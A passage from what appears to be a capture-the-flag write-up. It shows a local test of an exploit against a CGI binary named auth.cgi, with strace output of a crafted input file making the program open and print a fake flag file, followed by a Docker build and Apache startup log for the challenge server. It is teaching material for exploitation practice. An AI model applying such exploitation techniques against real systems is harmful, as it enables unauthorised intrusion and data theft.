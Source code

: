 And like magic, the exploit works (locally)! We can also use `strace` to watch the payload open, read, and write the data from the file, if we want (I like using this for troubleshooting):

```
$ CONTENT_LENGTH=263 strace ./auth.cgi < /tmp/poc.bin 
execve("./auth.cgi", ["./auth.cgi"], 0x7ffe603f3a50 /* 62 vars */) = 0

[...]

read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 263) = 263
open("/home/ctf/flag.txt", O_RDONLY)    = 3
read(3, "CTF{my-fake-flag}\n", 30)      = 18
write(1, "CTF{my-fake-flag}\n\0_\276\0\0\0\0\272\0\0\0\0", 30CTF{my-fake-flag}
_) = 30
exit(0)                                 = ?
+++ exited with 0 +++
```

Pretty cool!

## Final step

Finally, we need to send it against the server! I run the server with the given `Dockerfile`, forwarding port 8888:

```
ron@ridcully ~/ctf-2024/challenges/cant-give-in/challenge [challenge-cant-give-in]× $ docker build --progress=plain -t test . && docker run -p8888:80 --rm -it test
#0 building with "default" instance using docker driver

#1 [internal] load build definition from Dockerfile
#1 transferring dockerfile: 732B done
#1 DONE 0.0s

#2 [internal] load metadata for docker.io/library/httpd:2.4.58
#2 DONE 0.4s

...

#19 exporting to image
#19 exporting layers done
#19 writing image sha256:4e32fbd578f72b3faa13e0198e0b135366fc7be15cc267ec1d939e9f115364b2 done
#19 naming to docker.io/library/test done
#19 DONE 0.0s
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.3. Set the 'ServerName' directive globally to suppress this message
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.3. Set the 'ServerName' directive globally to suppress this message
[Fri Apr 12 21:16:31.011199 2024] [mpm_event:notice] [pid 7:tid 140256014165888] AH00489: Apache/2.4.58 (Unix) configured -- resuming normal operations
[Fri Apr 12 21:16:31.011419 2024] [core:notice] [pid 7:tid 140256014165888] AH00094: Command line: 'httpd -D FOREGROUND -c LoadModule cgid_module modules/mod_cgid.so'
```
